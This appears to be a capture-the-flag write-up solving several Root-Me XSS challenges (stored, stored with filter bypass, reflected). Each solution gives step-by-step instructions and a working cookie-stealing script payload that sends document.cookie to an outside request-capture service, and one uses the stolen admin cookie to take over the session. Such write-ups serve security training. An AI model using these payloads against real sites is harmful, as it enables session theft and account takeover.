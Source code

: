 # 1. Web application vulnerabilities

## [XSS Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

### Steps to reproduce

    - Create a free request capturer @ https://pipedream.com
    - Start event listening at the request capturer
    - Visit http://challenge01.root-me.org/web-client/ch18/
    - Choose any title
    - Enter <script>document.write("<img src=request_capturer_url"+document.cookie+"/>");</script> as message payload
    - Simple xss attack
    - Wait for the bot to load the image and thus the cookie stealer
    - Copy the flag in the captured request cookie

## [XSS Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

### Steps to reproduce

    - Create a free request capturer @ https://pipedream.com
    - Start event listening at the request capturer
    - Visit http://challenge01.root-me.org/web-client/ch19/
    - Choose any title
    - Enter "><script>document.write(%22<img src=request_capturer_url?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script> as message payload
    - We bypass angle brackets, quotation marks and encode the payload
    - Wait for the bot to load the image and thus the cookie stealer
    - Copy the admin cookie in the captured request
    - Change the document cookie to the admin cookie
    - Visit the admin section
    - Copy the flag

## [XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

### Steps to reproduce

    - Create a free request capturer @ https://pipedream.com
    - Start event listening at the request capturer
    - Visit http://challenge01.root-me.org/web-client/ch26/?p=exp' onmouseover='document.write(%22<img src=request_capturer_url?%22.concat(document.cookie).concat(%22 />%22))
    - Exp' is the reflected xss, we want the document cookie, we encode the paylod
    - Click on Report to the administrator
    - Wait for the bot to load the image and thus the cookie stealer
    - Copy the flag in the captured request cookie

## [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
